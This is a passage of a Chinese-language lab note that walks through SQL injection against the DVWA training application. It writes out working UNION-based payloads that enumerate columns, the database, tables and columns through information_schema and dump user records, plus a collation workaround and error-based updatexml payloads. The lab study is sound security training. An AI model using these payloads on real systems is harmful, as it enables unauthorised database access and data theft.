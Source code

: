 接下来猜测并进行字符判断
1' order by 2#      //猜测是2个字段，直接从2开始。
1' order by 3#     //返回失败
![[Pasted image 20250321171019.png]]

==猜测正确，字段为2==
 #### 获取数据库
```
 1' UNION SELECT 1,database() from information_schema.schemata#    //
```
![[Pasted image 20250321171226.png]]
可以看到数据库为dvwa
`1' UNION SELECT 1,table_name from information_schema.tables where table_schema='dvwa'#`
查询表名
![[Pasted image 20250321172230.png]]

> [!NOTE] 遇到的问题
> 如果在使用查询`1' UNION SELECT 1,table_name from information_schema.tables where table_schema='dvwa'`时出现错误提示`Illegal mix of collations for operation 'UNION'`，通常是**因为UNION操作中的列类型或校对集（collation）不匹配**，可以使用强制类型转换，将 `table_name` 转换为与原始查询列相同的类型（例如字符串），确保校对集一致。
> 修改后的语句
> `1' UNION SELECT 1, CAST(table_name AS CHAR) FROM information_schema.tables WHERE table_schema='dvwa'#`

查询到有两个表 guestbook、users
查询users
```
1' UNION SELECT 1, CAST(column_name AS CHAR) COLLATE utf8_general_ci FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users'#        //这里选择强制类型转换
```
![[Pasted image 20250321174342.png]]
可以看到列名：password,user_id,first-id,last_name等等

获取数据：1'`` UNION SELECT 1,group_concat(user,0x3a,avatar) from users#  


![[Pasted image 20250321193059.png]]
可以知道
user:admin对应的avatar:/dvwa/hackable/users/admin.jpg，以此类推。
#### error注入
`1' and updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)#`
获取表名，如下图
![[Pasted image 20250321193746.png]]
获取列名
`1' and updatexml(1,concat(0x7e,(SELECT column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),0x7e),1)#`
![[Pasted image 20250321193842.png]]
获取数据
`1' and updatexml(1,concat(0x7e,(SELECT group_concat(user,0x3a,avatar) from users limit 0,1),0x7e),1)#`
![[Pasted image 20250321194005.png]]
